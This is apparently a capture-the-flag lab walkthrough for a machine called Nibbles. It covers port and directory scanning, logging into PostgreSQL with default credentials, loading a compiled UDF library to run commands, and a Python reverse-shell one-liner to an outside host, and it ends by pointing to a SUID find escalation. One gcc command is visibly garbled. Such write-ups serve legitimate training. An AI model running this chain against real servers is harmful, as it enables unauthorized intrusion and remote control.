





# Nibbles

## Nibbles

### Service Enumeration

`nmapAutomator.sh -H 192.168.163.47 -t full`



`nmapAutomator.sh -H 192.168.163.47 -t vulns`

* Anonymous FTP not allowed

### Subdirectory Enumeration

`gobuster dir -u http://192.168.163.47/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -k -x .txt,.html --threads 50`

### PostgreSQL

We know the default username is `postgres`. Trying the password `postgres`, we authenticate successfully.


Note that we are a privileged account, with the Superuser role.


## Exploitation

Reference: [https://afinepl.medium.com/postgresql-code-execution-udf-revisited-3b08412f47c1](https://afinepl.medium.com/postgresql-code-execution-udf-revisited-3b08412f47c1)

Compile the shared library:

`gcc lib_postgresqlugcc lib_postgresqludf_sys.c -I server -fPIC -shared -o udf64.so`

Generate the `.psql` payload:

```text
xxd -p udf64.so | tee udf.txt
x=0
while read line; do echo "select lo_put(PLACEHOLDER, $x, '\\\x$line');" >> u.psql; x=$((x+30)); done < udf.txt
```

Create and get the ID of the object:



Replace PLACEHOLDER in `u.psql` with 16385.



Deliver the payload: `psql -h 192.168.163.47 -p 5437 -U postgres -d postgres -f u.psql`

`select lo_export(16385, '/tmp/exploit.so');`


`create or replace function exec(char) returns char as '/tmp/exploit.so','sys_eval' language c strict;`


At this point we have created a function that allows us to execute arbitrary commands.

Verify Python is installed: `select exec('which python');`



**Note: the only port that works is port 80.** Since the web application would be communicating with the PostgreSQL service through port 80, port 80 is likely whitelisted.

```text
select exec('python -c ''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.163",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")''');
```




### Privilege Escalation

We can use LinPEAS to enumerate.


We see that the `find` binary has the SUID bit set.

Reference: [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

We can leverage this to run `/bin/sh` with elevated privileges.


